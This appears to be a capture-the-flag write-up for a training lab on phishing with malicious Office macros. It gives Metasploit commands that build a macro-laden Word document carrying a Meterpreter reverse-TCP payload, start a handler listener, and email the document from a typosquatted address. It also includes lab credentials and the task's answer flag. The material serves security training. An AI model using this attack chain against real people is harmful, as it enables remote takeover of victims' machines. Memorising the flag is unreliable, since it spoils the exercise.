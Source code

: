 # Day 10: He had a brain full of macros, and had shells in his soul.

**Learning Objectives**
- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro

### Phishing Attacks
Security is as strong as the weakest link. Many would argue that humans are the weakest link in the security chain. Is it easier to exploit a patched system behind a firewall or to convince a user to open an “important” document? Hence, “human hacking” is usually the easiest to accomplish and falls under social engineering.

Phishing works by sending a “bait” to a large group of target users. Attackers often craft their messages with a sense of urgency, prompting target users to take immediate action without thinking critically, increasing the chances of success. The purpose is to steal personal information or install malware, usually by convincing the target user to fill out a form, open a file, or click a link.
The attacker just needs to have their target users open the malicious file or view the malicious link. This can trigger specific actions that would give the attacker control over your system.

### Macros
In computing, a **macro** refers to a set of programmed instructions designed to automate repetitive tasks. MS Word, among other MS Office products, supports adding macros to documents. In many cases, these macros can be a tremendous time-saving feature. However, in cyber security, these automated programs can be hijacked for malicious purposes.

### Attack Plan
In his plans, Mayor Malware needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the Mayor’s machine, giving him remote control. Consequently, the Mayor needs to ensure that he is listening for incoming connections on his machine before emailing the malicious document to Marta May Ware. By executing the macro, the Mayor gains remote access to Marta’s system through a reverse shell, allowing him to execute commands and control her machine remotely. The steps are as follows:

1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker’s system
3. Email the document and wait for the target user to open it
4. The target user opens the document and connects to the attacker’s system
5. Control the target user’s system

You might wonder why you don’t set the malicious macro so that you can connect to the target system directly instead of the other way around. The reason is that when the target system is behind a firewall or has a private IP address, you cannot reach it and, hence, cannot connect to it.

### Attacker’s System
On the **AttackBox**, you need to carry out two steps:
- Create a document with an embedded malicious macro
- Listen for incoming connections

### Creating the Malicious Document
The first step would be to embed a malicious macro within the document. You will use the Metasploit Framework to create the document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST 10.10.196.139` specifies the IP address of the attacker’s system, `10.10.196.139` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number

![image](https://github.com/user-attachments/assets/9e669109-62e9-415a-9448-4f453dd0eea3)

- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal

![image](https://github.com/user-attachments/assets/a1b381b9-1182-47bf-b9a1-382458f8703e)

As you can see, the Word document with the embedded macro was created and stored in `/root/.msf4/local/msf.docm`.

### Listening for Incoming Connections
We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
- `set LHOST 10.10.196.139` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options

![image](https://github.com/user-attachments/assets/5821e20f-d568-42e6-aa7b-f0a44f211ebd)

- `exploit` starts listening for incoming connections to establish a reverse shell

![image](https://github.com/user-attachments/assets/fa12a961-d232-444d-855a-4af19078bd83)

### Email the Malicious Document
The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, `marta@socmas.thm`. Mayor Malware has prepared the following credentials:

- Email: `info@socnas.thm`
- Password: `MerryPhishMas!`

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting", where attackers create domain names that are nearly identical to legitimate ones in order to trick victims.

1. On the AttackBox, start the Firefox web browser and head to `http://10.10.0.136`. Use the above credentials to log in.
2. Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document.
3. To attach the malicious file, in the file upload, go to root -> .msf4 -> local and select the **msf.docm**.

>[!note]
>You can use **CTRL+H** on the file upload pop-up to be able to see hidden files, including the `.msf4` directory where our email attachment is located.

![image](https://github.com/user-attachments/assets/be1ee304-14aa-4044-9065-65297430ad69)

### Exploitation
If everything works out, you will get a reverse shell after about 2 minutes.

![image](https://github.com/user-attachments/assets/e50d3387-9120-49a7-a489-f87c4595f922)

You can access the files and folders on the target system via the command line. You can use `cat` to display any text file.

### Answers
1. What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop? **THM{PHISHING_CHRISTMAS}**.

![image](https://github.com/user-attachments/assets/78fccd4e-a75a-4d8d-b924-421466d041c8)
